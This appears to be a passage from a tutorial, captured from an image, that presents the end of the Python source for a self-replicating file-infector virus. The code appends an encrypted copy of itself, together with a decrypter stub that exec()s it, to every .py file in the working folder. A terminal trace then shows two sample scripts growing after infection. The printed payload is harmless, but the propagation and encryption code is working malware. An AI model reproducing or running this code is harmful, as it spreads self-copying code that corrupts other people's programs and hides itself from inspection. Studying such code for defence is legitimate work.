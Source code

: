 ```python
    for file in os.listdir("."):
        if file.endswith(".py"):
            script = open(file, "r+")
            text_script = script.read()
            if "def calculate_key" not in text_script:
                plain_part = virus[:virus.find("def encrypt")]
                part_to_encrypt = virus[virus.find("def encrypt"):]
                modified_plain_part = modify(plain_part)
                key = calculate_key(text_script)
                encrypted_part = encrypt(part_to_encrypt, key)
                script.write(modified_plain_part)
                decrypter = "import sys" + chr(10) + "host = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "host_text = host.read()" + chr(10) + "host.close()" + chr(10) + "plain_part = host_text[host_text.find(" + chr(34) + "def calculate_key" + chr(34) + "):host_text.find(" + chr(34) + "def calculate_key" + chr(34) + ")+" + str(len(modified_plain_part)) + "]" + chr(10) + "key = calculate_key(host_text)" + chr(10) + "decrypted_text = decrypt(" + chr(34) + chr(34) + chr(34) + encrypted_part + chr(34) + chr(34) + chr(34) + ", key)" + chr(10) + "exec(decrypted_text)" + chr(10) + "run(plain_part + decrypted_text)"
                script.write(decrypter)
            script.close()


def payload():
    print("You were infected")


def run(virus):
    infect(virus)
    payload()


import sys
host = open(sys.argv[0], "r")
host_text = host.read()
host.close()
virus = host_text[:3450]
run(virus)
```

If we run the germ in a folder with several files with .py extension we will get the following trace:
```shell
probasvx@probasvx:~/virus3$ ls -las
total 20
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 19:11 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 13 18:32 ..
4 -rw-r--r--  1 probasvx probasvx   41 Dec 13 19:11 hello2.py
4 -rw-r--r--  1 probasvx probasvx   22 Dec 13 19:11 hello.py
4 -rw-r--r--  1 probasvx probasvx 3567 Dec 13 19:08 virus.py
probasvx@probasvx:~/virus3$ cat hello.py 
print("Hello world!")
probasvx@probasvx:~/virus3$ cat hello2.py 
# Comment
print("Hello another time :)")
probasvx@probasvx:~/virus3$ python3 virus.py 
You were infected
probasvx@probasvx:~/virus3$ ls -las
total 20
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 19:11 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 13 18:32 ..
4 -rw-r--r--  1 probasvx probasvx 3817 Dec 13 19:58 hello2.py
4 -rw-r--r--  1 probasvx probasvx 3862 Dec 13 19:58 hello.py
4 -rw-r--r--  1 probasvx probasvx 3567 Dec 13 19:08 virus.py
```